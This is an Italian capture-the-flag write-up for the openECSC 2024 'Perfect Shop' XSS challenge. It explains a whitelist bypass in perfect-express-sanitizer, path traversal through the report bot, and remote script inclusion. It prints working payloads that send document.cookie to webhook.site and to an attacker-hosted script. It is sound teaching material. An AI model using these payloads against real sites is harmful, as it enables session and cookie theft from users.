










# Perfect Shop
*Marzo 2024 - DOM-based XSS*

> "Do you like perfect things? Check out my new online shop!"

*Prior knowledge: HTML, JavaScript*

## Contesto
Viene fornito il link al sito della challenge ed il corrispettivo codice sorgente. A primo impatto il sito può risultare un po' overwhelming: sono presenti diverse funzionalità, il che significa diversi endpoint e meccanismi da studiare alla ricerca di vulnerabilità.

In realtà, per fortuna il codice è relativamente breve e poco verboso, e tutti i file fatta eccezione per il `server.js` non contengono elementi interessanti: `products.js` raccoglie informazioni sui prodotti, mentre i vari [template](https://en.wikipedia.org/wiki/Template_processor) sembrano mostrare in output soltanto elementi passati dal server. Si può tenere a mente la loro presenza, ma l'esistenza di una [Server Side Template Injection](https://portswigger.net/web-security/server-side-template-injection) è momentaneamente scongiurata.

Ancora prima della dichiarazione degli endpoint, si può vedere il seguente codice all'inizio di `server.js`:
```js
const express = require('express');
const crypto = require('crypto');
const sanitizer = require("perfect-express-sanitizer");

let products = require('./products');

const HEADLESS_HOST = process.env.HEADLESS_HOST || 'headless:5000';
const HEADLESS_AUTH = process.env.HEADLESS_AUTH || 'supersecret';
const WEB_DOM = process.env.WEB_DOM || 'web:3000';
const FLAG = process.env.FLAG || 'openECSC{this_is_a_fake_flag}';
const admin_password = crypto.randomBytes(20).toString('hex');

const app = express();
app.use(express.urlencoded({ extended: false }));
app.set('view engine', 'ejs');
app.use(sanitizer.clean({ xss: true }, ["/admin"]));

app.use((req, res, next) => {
    res.locals.errormsg = '';
    res.locals.successmsg = '';
    next();
});
```

È già possibile notare qualcosa di interessante. La prima metà del codice non fa altro che [importare librerie](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Statements/import). 

#### Concetti importanti per questa challenge
Ho deciso di scrivere i punti cardine dei concetti necessari alla risoluzione della challenge in modo che il writeup possa arrivare anche a giocatori non abituati al contesto delle CTF, vista la natura della competizione. Un giocatore di CTF e/o un programmatore possono leggere direttamente il [riassunto delle informazioni a disposizione](#riassunto-informazioni-a-disposizione) o un sottocapitolo precedente che gli interessa.

##### Inviare informazioni al server

Partendo da `const app = express();`, che conferma l'utilizzo di [express](https://github.com/expressjs/express) come [web framework](https://en.wikipedia.org/wiki/Web_framework) del sito, la riga successiva permette al programmatore di accedere ai dati inviati dagli utenti nelle richieste POST come [body parameters](https://swagger.io/docs/specification/2-0/describing-request-body/) tramite `req.body.[parameter]`. 

I *body parameters* sono le informazioni che il sito web riceve senza passare nè dai [query parameters](https://www.branch.io/glossary/query-parameters/) (in `https://www.google.com/search?q=openECSC`, `q` è il query parameter e `openECSC` il suo valore), nè dagli [header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers) tra cui sono compresi anche i [cookie](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cookie). Tipicamente, i body parameters "passano" le informazioni che l'utente inserisce in un form al server, che le gestisce secondo la volontà del programmatore.

Riassunto: 


Come è possibile notare, non è obbligatorio che ciò che viene visto dall'utente e ciò che viene inviato al server sia uguale. In questo caso, per quanto riguarda il prodotto, per il server è molto più facile lavorare con l'id che con il nome, che in ogni caso rappresenterebbe comunque univocamente il prodotto selezionato. È inoltre lecito affermare che il programmatore accederà a queste informazioni tramite le "variabili" `req.body.id` e `req.body.message`.

##### Basi di XSS

Continuando, si nota che [ejs](https://github.com/mde/ejs) è il template engine scelto per quest'app.

Procedendo, all'applicazione viene istruito di usare il [perfect-express-sanitizer](https://github.com/pariazar/perfect-express-sanitizer) per evitare il rischio di [XSS](https://en.wikipedia.org/wiki/Cross-site_scripting) (Cross-Site Scripting), fatta eccezione per l'endpoint `/admin`. Questo tipo d'attacco è molto semplice: si verifica quando un sito può venire manipolato in modo da permettere l'esecuzione di codice JavaScript non esplicitamente scritto dal programmatore. L'esempio più peculiare è l'inserimento di un tag di questo tipo: `<script>alert(1)</script>`. Se viene inserito questo tag in una pagina di ricerca che stampa ciò che è stato cercato dall'utente senza alcun tipo di sanitizzazione, il tag verrà interpretato e lo script eseguito:


Questo attacco è "temporaneo", vale solo per la richiesta "vittima", e si chiama *reflected XSS*. Se il payload/vettore d'attacco (in questo caso `<script>alert(1)</script>`) fosse stato memorizzato in qualche modo dall'applicazione, come, ad esempio, in un commento, l'attacco sarebbe stato una *stored XSS*.

##### Gestione di risposta e richiesta in Express

L'ultima porzione di codice non mostra nulla di interessante. `res.locals.errormsg` e `successmsg`, se non nulli, appaiono come pop-up contenenti informazioni utili per l'utente (es. "ricerca troppo lunga"). 

Può essere utile invece soffermarsi sui parametri `req` e `res`. Questi due parametri sono presenti in tutti gli endpoint, e servono rispettivamente a ottenere informazioni dalla e/o sulla richiesta appena ricevuta (`req`), e ad "assegnare" informazioni alla risposta in uscita, comprese quelle relative all'estetica della pagina.

##### Riassunto informazioni a disposizione
Sappiamo che l'applicazione sanitizza tutti gli input da XSS grazie a `app.use(sanitizer.clean({ xss: true }, ["/admin"]));` fatta eccezione per l'endpoint `/admin` e che viene usato express come web engine.


### Endpoint
Anche se il "campo da gioco" è risultato meno esteso del previsto, ci sono diversi endpoint da analizzare. È quindi importante capire il loro funzionamento fin dall'inizio.

#### / (homepage)
Questa è la prima schermata che viene mostrata quando si entra nel sito, ovvero quando viene effettuata una GET all'endpoint `/`:


Il codice relativo è il seguente:
```js
app.get('/', (req, res) => {
    res.render('products', { products: products });
});
```

Nulla di interessante: viene [renderizzato](https://docs.dataops.live/docs/develop-development-principles/template-rendering/), o volgarmente "caricato", il template che si occupa di mostrare un elenco di certi prodotti come nello screenshot. 

In particolare, `res.render()` è una funzione che chiama un certo template (primo parametro) passandogli alcune informazioni (secondo parametro). Il template si occupa di visualizzare le informazioni relative a tutte le entità passate come secondo parametro in modo tendenzialmente ordinato ed esteticamente pleasing.

In questo caso non viene applicato nessun filtro alla variabile `products`, quindi verrano visualizzati tutti i prodotti.

#### /product/:id
I due punti presenti prima di `id` indicano che esso è un valore che può arbitrariamente essere scelto dall'utente. Ci si può immaginare che esistano diversi prodotti, e questo è un modo per permettere di avere una [route](https://expressjs.com/en/starter/basic-routing.html) per ognuno di essi senza specificarne esplicitamente una per ognuno.



```js
app.get('/product/:id', (req, res) => {
    const id = parseInt(req.params.id);

    if (isNaN(id) || id < 0 || id >= products.length) {
        res.status(404).send('Not found');
        return;
    }

    res.render('product', { product: products[id] });
});
```

Qui viene [parsed](https://en.wikipedia.org/wiki/Parsing) ad intero il valore inserito dall'utente come id e viene assegnato all'omonima variabile (ovvero ci si assicura che il valore sia effettivamente un intero, e quando non lo è viene trasformato ad intero secondo determinati criteri).

Se l'id non viene riconosciuto (il prodotto non esiste) viene restituito un errore `404` "not found", altrimenti viene renderizzato un template che restituisce un risultato come in foto relativamente al prodotto scelto.

#### /search
Una classica funzionalità di ricerca che filtra i risultati in base al nome del prodotto.



```js
app.get('/search', (req, res) => {
    let query = req.query.q || '';

    if (query.length > 50) {
        res.locals.errormsg = 'Search query is too long';
        query = '';
    }

    const result = products.filter(product => product.name.toLowerCase().includes(query.toLowerCase()));

    res.render('search', { products: result, query: query });
});
```

Se la stringa di ricerca passata come *query parameter* è vuota, alla variabile `query` viene assegnata una stringa vuota. Questo accade anche quando la stringa di ricerca è troppo lunga, ovvero supera i 50 caratteri. 

Dopodichè viene applicato un filtro [case insensitive](https://en.wikipedia.org/wiki/Case_sensitivity) in base al nome del prodotto: se la stringa cercata non si trova nel nome del prodotto, allora questo non viene incluso tra i prodotti da renderizzare. Come è possibile vedere provando a usare l'endpoint, e immaginare dalla riga di rendering, anche la query verrà restituita in output dopo aver effettuato la ricerca oltre ai prodotti trovati.

Questo sarebbe molto utile per una semplice reflected XSS, ma il filtro sulla lunghezza e sopratutto l'onnipresente sanitizzazione non lo permettono. Peccato 😔

#### /admin
Un pannello admin con una lista di tutti i prodotti disponibili.


```js
app.get('/admin', (req, res) => {
    res.render('admin', { products: products });
});
```

Il filtro da XSS in questa route è disabilitato, nonostante questo non ci sono tracce di tag HTML o simili.

#### /admin/:id
#### GET
Pagina di modifica dei prodotti, parte dell'admin panel.



```js
app.get('/admin/:id', (req, res) => {
    const id = parseInt(req.params.id);

    if (isNaN(id) || id < 0 || id >= products.length) {
        res.status(404).send('Not found');
        return;
    }

    res.render('edit_product', { product: products[id] });
});
```

Il codice è praticamente identico a quello di ricerca. Serve ad identificare il prodotto che l'admin desidera modificare.

Già qui ci si potrebbe porre un enorme domanda ;)

#### POST
Azione di modifica di prodotto da parte dell'admin.

```js
app.post('/admin/:id', (req, res) => {
    const id = parseInt(req.params.id);

    if (isNaN(id) || id < 0 || id >= products.length) {
        res.status(404).send('Not found');
        return;
    }

    if (req.body.password !== admin_password) {
        res.locals.errormsg = 'Invalid password';
        res.render('edit_product', { product: products[id] });
        return;
    }

    if (req.body.name) {
        products[id].name = req.body.name;
    }

    if (req.body.description) {
        products[id].description = req.body.description;
    }

    const price = parseFloat(req.body.price);
    if (!isNaN(price) && price >= 0) {
        products[id].price = req.body.price;
    }

    res.locals.successmsg = 'Product updated successfully';
    res.render('edit_product', { product: products[id] });
});
```

Visto il check sulla password, che viene generata in modo completamente casuale, potremmo anche ignorare il codice, essendo questo un endpoint impossibile da triggerare per i semplici utenti. Il fatto che la challenge sia su un'istanza condivisa (tutti i partecipanti devono risolvere la challenge sullo stesso server) è già di per sè un grande hint al fatto che non possiamo modificare i prodotti a nostro piacimento, potenzialmente danneggiando gli altri partecipanti. Figuriamoci se qualcuno può avere l'idea di dare RCE o questo tipo di XSS su un'istanza condivisa :D

Per completezza: l'id passato dall'utente viene parsato in `id`. Viene fatto un controllo sull'esistenza del prodotto e sulla correttezza della password. Se entrambi passano, vengono modificati tutti i campi che nella pagina di modifica risultano non vuoti, ed anche il prezzo se il controllo di integrità viene passato (si limita a controllare che il prezzo sia un float valido e non negativo). Se la modifica è andata a buon fine viene stampato un messaggio di successo, e in ogni caso alla fine si viene reindirizzati alla pagina di modifica.

#### Report
##### GET
Viene semplicemente renderizzata la pagina di report.



```js
app.get('/report', (req, res) => {
    res.render('report', { products: products });
});
```

È possibile vedere come la lista di prodotti serva alla pagina di report per far scegliere all'utente il prodotto relativamente al quale effettuare un reclamo nella drop-down list.

##### POST
Azione di reporting da parte dell'utente.

```js
app.post('/report', (req, res) => {
    const id = parseInt(req.body.id);
        if (isNaN(id) || id < 0 || id >= products.length) {
        res.locals.errormsg = 'Invalid product ID';
        res.render('report', { products: products });
        return;
    }

    fetch(`http://${HEADLESS_HOST}/`, { 
        method: 'POST', 
        headers: { 'Content-Type': 'application/json', 'X-Auth': HEADLESS_AUTH },
        body: JSON.stringify({ 
            actions: [
                {
                    type: 'request',
                    url: `http://${WEB_DOM}/`,
                },
                {
                    type: 'set-cookie',
                    name: 'flag',
                    value: FLAG
                },
                {
                    type: 'request',
                    url: `http://${WEB_DOM}/product/${req.body.id}`
                },
                {
                    "type": "sleep",
                    "time": 1
                }
            ]
         })
    }).then((r) => {
        if (r.status !== 200) {
            res.locals.errormsg = 'Report submission failed, contact an admin if the problem persists';
        } else {
            res.locals.successmsg = 'Report submitted successfully';
        }
        res.render('report', { products: products });
    }).catch(() => {
        res.locals.errormsg = 'Failed to submit report, contact an admin if the problem persists';
        res.render('report', { products: products });
    });
});
```

All'inizio viene fatta l'operazione di parsing e controllo dell'esistenza del prodotto come già visto, mentre sotto viene effettuata una [fetch](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch) ad un headless.

Può sembrare un po' overwhelming, ma in realtà il funzionamento dell'headless è molto semplice:

La fetch effettua una visita al sito indicato nella costante `HEADLESS_HOST`, e che quindi non si può conoscere a meno che non si conoscano le configurazioni dell'applicazione. 

Presso questo indirizzo viene effettuata una `POST`, con gli header che suggeriscono all'headless che sta per ricevere dati in [formato json](https://en.wikipedia.org/wiki/JSON).

Non si ha a disposizione il codice sorgente dell'headless, e quindi non si può sapere quale sia il meccanismo dietro all'implementazione di `actions` precisamente, ma basta sapere che ci sono delle istruzioni che stanno venendo eseguite in sequenza, per lo scope della challenge.

La successione delle `actions` è la seguente:
- Viene effettuata una GET al Perfect Shop, questo per permette il prossimo step;
- Viene settato un cookie `flag` relativo al Perfect Shop che ha come valore la flag da estrarre per risolvere la challenge;
- Viene effettuata una GET a `http://${WEB_DOM}/product/${req.body.id}`, dove `WEB_DOM` è l'indirizzo del Perfect Shop, e `req.body.id` è l'id passato dall'utente durante il processo di report;
- Non viene fatto nulla per un secondo.

Una volta fatto questo, vengono gestiti vari casi d'errore e di successo. Verranno stampati due messaggi diversi in base al fatto se l'errore viene rilevato dal codice JavaScript del server della challenge, o se viene restituito uno [status code](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status) diverso da 200 dall'headless.

Quello che sta succedendo in breve è che il report dell'utente sta venendo verificato da un bot, che simulerà il comportamento di un admin loggato che presumibilmente ha dei cookie di sessione/autenticazione relativi allo Shop e che controllerà il prodotto con l'id indicato dall'utente nel momento del report.

## Setup
Avere la challenge che runna in locale facilita di molto il processo di understanding del funzionamento di ogni minima parte dell'applicazione che si sta per attaccare. In questo caso gli organizzatori hanno anche delivered il codice sorgente con dei `docker compose` file che permettono di setuppare l'infrastruttura in un attimo.

##### Docker
[Docker](https://www.docker.com/) consente di creare "scatole magiche" (container) che contengono un certo software che può venire eseguito come se si trovasse sull'elaboratore di chi l'ha progettata.

Questo significa che il programmatore può permettersi di distribuire infrastrutture che si basano su sistema operativi e configurazioni particolari, senza che l'utente sia costretto a passare a suddetto OS o a modificare le sue configurazioni.

##### docker Compose
Un'applicazione potrebbe aver bisogno di più container, immaginiamo un sito con un server dedicato per il web engine e uno per il database (come in questa challenge). 

I file [docker Compose](https://docs.docker.com/compose/) sono simili a una mappa che aiuta nella gestione coordinata di diversi container concettualmente legati. Viene specificato quali container devono essere avviati nello stesso momento con un singolo comando, e le informazioni ad essi relativi, come il valore delle loro variabili d'ambiente, le porte che possono utilizzare, le loro dipendenze, etc.

Ricevere in allegato al codice sorgente della challenge anche un docker compose ben fatto, significa poter testare in locale con un solo comando, e poter modificare il codice a proprio piacimento per comprendere meglio i limiti dei nostri payload e la natura delle vulnerabilità del sito che si sta attaccando.

### Questa challenge
#### Linux
Per runnare semplicemente la challenge, basta eseguire un `sudo docker compose up` nella cartella della challenge per far runnare tutti i container. Come è possibile vedere sia dal `server.js` che dal `docker compose.yaml`, il sito sarà raggiungibile sulla [porta](https://en.wikipedia.org/wiki/Port_(computer_networking)) 3000.

Se per qualche motivo si volesse modificare il codice sorgente della challenge, basta effettuale le modifiche desiderate, salvare il file, e runnare `sudo docker compose build web`. In questo caso, con `web` stiamo stiamo specificando che non vogliamo rebuildare tutti i container, ma solo quello relativo al server web.

#### Windows
Startare il Docker Engine. Se si ha docker desktop, basta avviarlo ed insiemo ad esso si avvierà anche l'engine. Da terminale, accedere alla cartella del Perfect Shop e lanciare `docker compose up` per avviare la challenge in locale, e `docker compose build web` in caso si volessero applicare delle modifiche. In questo caso, con `web` stiamo stiamo specificando che non vogliamo rebuildare tutti i container, ma solo quello relativo al server web.

## How to attack?
La presenza di un bot dà di fatto la certezza che ci sarà da sfruttare una [client-side vulnerability](https://owasp.org/www-project-top-10-client-side-security-risks/), cosa palesemente confermata dalla presenza di un filtro per le XSS.

Ci sono tre cose che possono far storcere il naso effettuando un'analisi statica del codice (non mi ero accorto di due di queste in gara, ci arrivo :P):
- L'intero sta venendo parsed e non [casted](https://en.wikipedia.org/wiki/Type_conversion), il che significa che il valore parsed e il valore non parsed potrebbero essere molto distanti logicamente;
- L'unico endpoint "esentato" dalla sanitizzazione in input è `/admin`, ma è possibile trovare alcuni HTML tag anche in `/admin/:id` (sono endpoint diversi);
- In fase di report, la segnalazione stessa è relativa al prodotto con l'id passato dall'utente parsato, ma il bot visita l'endpoint del prodotto con l'id passato dall'utente non parsato. Ricollegando al primo punto, potrebbero essere valori completamente differenti l'uno dall'altro;

#### Parsing
L'id viene parsato usando la funzione [parseInt()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/parseInt). Come è possibile leggere nella documentazione, l'unico requisito che una stringa deve avere per venire parsata ad intero, è che essa *inizi* con una cifra. E come viene trattata una stringa che inizia con una cifra, ma che per il resto contiene caratteri e simboli?

*La console dei DevTools dei principali browser è una grande amica in questo tipo di challenge. Vi si può accedere generalmente con fn+F12 > console*

 Hell yeah.

Semplicemente, il resto della stringa viene brutalmente troncata. Lo stesso vale se prima abbiamo una cifra, poi dei caratteri, e poi altre cifre. Dal primo carattere incontrato compreso in poi, tutto viene totalmente ignorato da parseInt.

#### Endpoint inheritance???? (It's not a real thing don't look it up)
Come visibile anche dallo screenshot mostrato prima, in `/admin/:id` sono presenti dei tag, nonostante soltanto `/admin` sia esclusa dalla sanitizzazione. A questo punto, non si può far altro che approfondire il funzionamento del sanitizzatore, che in questo caso è importato dalla libreria [`perfect-express-sanitizer`](https://github.com/pariazar/perfect-express-sanitizer/tree/4f9c47f37596fa9830408470d818752d76b0dd79). In particolare nella challenge stava venendo utilizzata la versione `1.0.13`.

Sono presenti diversi moduli relativi alla sanitizzazione, mentre `index.js` è proprio il file che si occupa della gestione della whitelist:

```js
const sanitize = require("./modules/");

function middleware(
  options = {},
  whiteList = [],
  only = ["body", "params", "headers", "query"]
) {
  return (req, res, next) => {
    only.forEach((k) => {
      if (req[k] && !whiteList.some((v) => req.url.trim().includes(v))) {
        req[k] = sanitize.prepareSanitize(req[k], options);
      }
    });
    next();
  };
}

module.exports = {
  clean: middleware,
  sanitize,
};
```

La porzione di codice responsabile della gestione della whitelist è presente nell'if: `!whiteList.some((v) => req.url.trim().includes(v))`. La sanitizzazione presente dentro l'if viene eseguita solamente se l'URL passato nella richiesta non **include** elementi presenti nella whitelist. In particolare, l'utilizzo di [`some()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/some) permette di controllare se anche un solo elemento della whitelist è presente nell'URL, caso in cui la condizione diventa vera, mentre [`trim()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/trim) rimuove eventuali spazi presenti all'inizio e alla fine dell'URL della richiesta.

Questo significa che come `/admin` è escluso dalla sanitizzazione, lo è anche `/admin/:id`. 

It's quiz time!!! Da quali di questi elementi può essere composto un URL?
- [ ] host
- [ ] path
- [ ] querystring (query parameters)
- [X] all of the above

Risposta esatta! Sei proprio bravo ^^

Forte di questa informazione, si può passare al punto successivo.

#### Bot viaggiatore
Sì, c'è una discrepanza tra l'id parsato e l'id del prodotto che verrà visitato dal bot, ma cosa ci cambia? Portare il bot a `http://perfectshop.challs.open.ecsc2024.it/product/1hehJHAHajhajseheja` invece che a `http://perfectshop.challs.open.ecsc2024.it/product/1` come previsto può essere divertente, ma nulla più. 

Esiste una potente arma utilizzabile in questi casi, ovvero [`../`](https://www.google.com/search?q=dot+dot+slash+meaning), che in un percorso sta a significare "vai su di una cartella". Lo stesso può valere nel caso di un endpoint: `http://perfectshop.challs.open.ecsc2024.it` è l'equivalente di `http://perfectshop.challs.open.ecsc2024.it/product/1/../../` (se il concetto non è chiaro, ti consiglio di giocarci un po').

Questo significa che possiamo mandare il bot in giro. Di per sè it's not a big deal, ma facendo 2+2 col resto dei punti mostrati, è possibile già immaginare una catena per creare un exploit funzionante, almeno sulla carta. Se così non fosse, you're just like me, e potrebbe essere utile procedere leggendo...

### Studying the target by playing around
[Fuzzing](https://en.wikipedia.org/wiki/Fuzzing) is the art of fucking around and finding out, tecnica comprovata da numerosi esperti di cybersecurity, paper sulla materia e CTFer. 

Insieme alla disperazione, il cibo e i limiti di tempo, è stata la cosa più utile per la risoluzione di questa challenge. 

Scherzi a parte, inizialmente non avevo notato quasi nulla di ciò che ho scritto fino ad ora in questo writeup, e conoscendo la mia tendenza ad abbandonare velocemente una challenge che a prima vista definisco "difficile" ho deciso di testare un nuovo approccio.

I tend to overlook diverse cose durante l'esplorazione di una challenge, e allora avendo a disposizione il codice sorgente e il Dockerfile ho deciso di disattivare tutti i filtri, e riattivarli man mano che adattavo il payload ai vari costraints che mi venivano imposti. 

#### Primo passo: Reflected XSS senza filtri


Ho deciso di mantenere una decenza sul filtro di lunghezza per evitare di ritrovarmi con payload comicamente lunghi.

A questo punto non resta che buildare e uppare la challenge, e vedere come va.



Come ci si poteva aspettare, con i filtri disattivati ci si riesce a pwnare regolarmente. Ed a rubare un cookie?

##### Cookie stealing e webhooks
I cookie sono un tipo di header speciale, e per questo esiste una sorta di shortcut in JavaScript che permette di accedervi, ovvero la proprietà `document.cookie`. 

Per riuscire ad esfiltrare i cookie di un utente sul sito, si ha bisogno di un endpoint che sia raggiungibile dalla vittima, il che significa che bisogna esporre un server per fare in modo che sia raggiungibile da chiunque. 

I [webhook](https://en.wikipedia.org/wiki/Webhook) sono... cose... molto versatili. Per quel che riguarda questa challenge, un sito come [webhook.site](https://webhook.site/) permette di utilizzarli come se si stesse utilizzando un proprio server esposto al mondo esterno.

Per fare una prova, si può utilizzare un payload di questo tipo. `<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>`

In questo tipo di payload è importante non utilizzare un tag HTML, ma assicurarsi che stia venendo effettivamente eseguito del codice JavaScript (va bene inserire l'URL al webhook concatenato con `document.cookie` dentro ad un `onerror`, ma non in una semplice `src`) in modo che document.cookie sia "raggiungibile".

Inoltre, bisogna appendere i cookie come query parameter (webhook e server personale) o come path (solo server personale). Non farlo significa appendere i cookie come parte dell'host, il che significa che la richiesta non raggiungerà mai la destinazione desiderata. Per esempio, invece di finire su `myhost.com`, finirebbe su `myhost.comCOOKIENAME=COOKIEVALUE`, che non ha senso, al contrario di `myhost.com?c=COOKIENAME=COOKIEVALUE` o `myhost.com/COOKIENAME=COOKIEVALUE` (che con `webhook,site` non ha senso, a meno che non si sia proprietari di suddetto dominio).

Eseguendo il payload poco sopra inviandolo nella pagina di ricerca, si ottiene il risultato seguente su webhook.site:


Ecco i cookies!

#### Secondo passo: Cookie stealing al bot
Forse avrebbe avuto più senso trovare prima un payload valido con il filtro di caratteri, ma in gara ero un po' nel panico e volevo essere sicuro di poter rubare i cookie al bot senza problemi. Paura immotivata, visto che non c'era alcun tipo di controllo in questo senso e non veniva specificato il valore di [`httpOnly`](https://owasp.org/www-community/HttpOnly) per il cookie `flag`, che verrà quindi settato come da default value a `false`.

*che significa?* Per motivi di sicurezza è stata introdotta la flag opzionale `httpOnly` per il cookie, che se settata a `true` non permette al codice JavaScript presente nel documento di accedere a `document.cookie`, mitigando esattamente il tipo di attacco che sto per effettuare.

Ma prima, c'è da approfondire il funzionamento del bot e della relativa pagina di report.


Tutto regolare, ecco l'id e il messaggio. Andando nei log, che appaiono sul terminale dal quale si è lanciato il `docker compose`, è anche possibile verificare quale pagina è stata visitata dal bot:


E se, per nessun motivo, si volesse mandare un id diverso da quelli prefissati dalla `select` proposta dal programmatore? In questo caso, è molto utile modificare la richiesta con Burp Suite o strumenti simili. Per sfortuna non ho il tempo materiale di mostrare come setuppare Burp sul vostro browser di fiducia ([questo](https://www.youtube.com/watch?v=Vn_Zst6BMGo) tutorial può tornare utile) o per mostrare il procedimento per risolvere la challenge senza l'utilizzo di strumenti simili.



Ciò che ho fatto, è modificare il valore di `id` da `1` a `1/../../search?q=Incredible` prima che venisse inviato al server e conseguentemente al bot. Per capirci, avrei ottenuto lo stesso risultato se avessi fatto questo:



Andando nei logs, è possibile vedere che il bot viene redirectato a `search?q=Incredible`:


Basta fare un breve controllo della struttura delle route del sito per convincersene.

Ora non resta che provare il payload che ha funzionato prima per esfiltrare il nostro cookie sul bot. Provando appunto il payload `<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>`, si noterebbe che l'URL completo che si visita è `http://localhost:3000/search?q=<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>` o `http://perfectshop.challs.open.ecsc2024.it/search?q=<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>` a seconda se si sta provando la challenge in locale o sul server di gara.

Questo significa che si dovrà far effettuare la stessa richiesta dal bot, il che significa effettuare la stessa modifica che si è fatta prima, fondendola con l'exploit che si è già usato:


Ovviamente io non sto URL-encodando il payload col solo scopo di far capire meglio cosa sta succedendo, ma voi spettatori da casa dovete ricordarvi di URL-ecodare come si deve <3 (su Burp CTRL+U evidenziando il testo da URL-encodare):


Prima una URL encodata per il valore del query parameter che il bot invierà all'endpoint di ricerca, e poi una URL-encodata per tutto il payload che sta per venire inviato al bot.

Inviando questo payload, si riceve sul webhook una richiesta con la flag di prova settata nelle config:



#### Terzo passo: Cookie stealing al bot con il sanitizer attivo
Nella riga 16, si modifichi di nuovo il sanitizer in modo da settarlo come nell'applicazione originale, ribuildando il tutto:

`app.use(sanitizer.clean({ xss: true }, ["/admin"]));`

Una volta che l'applicazione verrà riuppata, si potrà notare che nessuno dei payload usati in precedenza funzionerà più, venendo sostituiti invece da una stringa vuota. 

In questo passaggio ci sono ben pochi trick che si possono fare. Per risolvere questo "nodo", bisognava accorgersi dell'errore presente nella libreria del sanitizer, ed in gara è stato un passaggio tutt'altro che immediato. 

Mettiamo caso che per qualsiasi motivo, che sia che avete provato ad inserire uno `/admin` nella richiesta come query parameter, o che con l'analisi statica vi siate accorti che c'era qualcosa che non andava nel sanitizer, adesso si sa che basta che `/admin` sia sottostringa dell'URL della richiesta (ricordo ancora una volta: i query parameter fanno parte dell'URL) per fare in modo che il sanitizer ignori qualsiasi tipo di payload XSS venga mandato.

Una cosa molto comoda è che se si decide di inserire un query parameter non utilizzato dal server, questo viene inviato ad esso e semplicemente non viene utilizzato. Questo significa che è possibile mandare un parametro completamente aleatorio che abbia valore `/admin` per poter saltare qualsiasi tipo di sanitizzazione senza dover modificare il payload in qualche modo contorto.

Quindi, se prima in fase di report si mandava `id=1/../../search?q=<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>&message=openECSC`, adesso si può mandare una cosa simile a `id=1/../../search?lol=/admin&q=<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>&message=/admin`. 

Da notare come abbia dovuto usare uno `/admin` per bypassare il filtro durante la comunicazione col bot, e un altro per bypassare il filtro quando si inganna il bot nell'eseguire una ricerca nell'endpoint relativo. 

Naturalmente, avviare una chain (?) del genere significa dover gestire correttamente l'URL encoding per fare in modo che i parametri vengano correttamente sparsi tra la POST che viene fatta all'endpoint di report (al quale verranno mandati i parametri `id` e `message`) e la richiesta che viene eseguita dal bot all'endpoint di ricerca (al quale verranno mandati il parametro necessario `search` e il dummy parameter `lol`).

Una volta applicati gli URL encoding correttamente, il risultato dovrebbe essere questo: `id=1/../../search%3flol%3d"/admin"%26q%3d<script>window.location%253d"https%253a//webhook.site/[REDACTED]%253d"%252bdocument.cookie</script>&message=/admin`. 

Non essendo escluso dal filtro, sarà necessario eludere il filtro anche nell'endpoint di report. Per farlo, basta aggiungere un query parameter qualunque col valore `/admin` o `'/admin'` anche nell'URL di report. In Burp Suite, il payload finale sarà:


Facendo questo, si dovrebbe di nuovo ottenere la flag sul webhook come prima. Ora c'è da superare l'ultimo ostacolo...

#### Ultimo passo: filtro di lunghezza
Questo passo non richiedeva una vera e propria scienza. Diciamo che mi sono limitato a cercare un payload più corto possibile con la stessa filosofia dei payload precedenti. Per completezza, aggiungo un sottocapitolo con le varie cose che ho provato.

##### Cosa ho provato durante la gara
- Prima di tutto ho provato più volte a sfruttare la [unicode normalization](https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html), con un payload del tipo [`<script src=//ffff.pw>`](https://jlajara.gitlab.io/XSS_20_characters), ma mi era sembrato inutile in quanto non mi avrebbe permesso di esfiltrare il cookie (cosa assolutamente non vera, ci tornerò dopo) in quanto non sarei riuscito ad appendere il contenuto di `document.cookie`, visto che il solo utilizzo di src non mi avrebbe permesso di eseguire del codice JavaScript;

- Ho provato a usare `onerror` così: ``, andando però ancora oltre al limite consentito di 50 caratteri;

- Ho trovato il modo di non specificare il protocollo, ottenendo ``. Ancora decisamente troppo.

- Ho provato a cambiare tag, provando prima con lo script `<script>location='//[IP]/'+document.cookie` dove `location` è una shortcut per accedere a `window location`, ma mi sono accorto che il payload non avrebbe funzionato se non avessi chiuso il tag.

- Ancora, stavolta con `<svg onload=location='//[IP]/'+document.cookie>`, ma con l'IP avrei comunque sfortato di pochi caratteri.

A forza di provare e riprovare, convincendomi sempre di più di non star usando il giusto approccio, e guardando e riguardando i file della challenge, anche i template che reputavo completamente sicuri, il mio sguardo è andato sul CDN di Bootstrap commentato. 

Quello che viene fatto col CDN, è includere del codice JavaScript presente su un server esterno nella pagina che la chiama. Per fare questo basta il riferimento a questo server e un tag `script`. Eureka.

#### XSS RFI
Penso di poterla chiamare una Remote File Inclusion?

Alla fine la soluzione era scrivere il proprio payload su un file qualsiasi. Il payload può essere lungo quanto si vuole, l'importante è che il tag che includerà il codice JavaScript in esso contenuto sia inferiore ai 50 caratteri.

A questo punto ho creato un file di nome `x.js` che cambiasse l'indirizzo della pagina in quello del mio server, ovvero:

```js
window.location = "https://webhook.site/[REDACTED]?c=" + document.cookie;
```

A questo punto, è bastato inviare al bot un payload che gli facesse cercare `<script src='//[IP]:[PORT]/'></script>` in modo che includesse il file sul mio server, lo eseguisse, e mi inviasse la flag cambiando appunto l'indirizzo della pagina da quello della challenge a quello del mio webhook con query parameter i cookie relativi al sito della challenge.

#### Come esporre un proprio server al mondo
Per esporre i propri file al resto dell'internet non c'è bisogno di possedere fisicamente un server. Il nostro PC può ricoprire questo ruolo senza troppi problemi. Basta avere Python per fare ciò che ho fatto io durante la gara, quindi credo che qualsiasi sistema operativo supporti Python, permetta anche di esporre un server come sto per mostrare:

Prima di tutto, c'è da ottenere il proprio IP locale, che su Linux si può ottenere runnando su terminale il comando `ifconfig`:


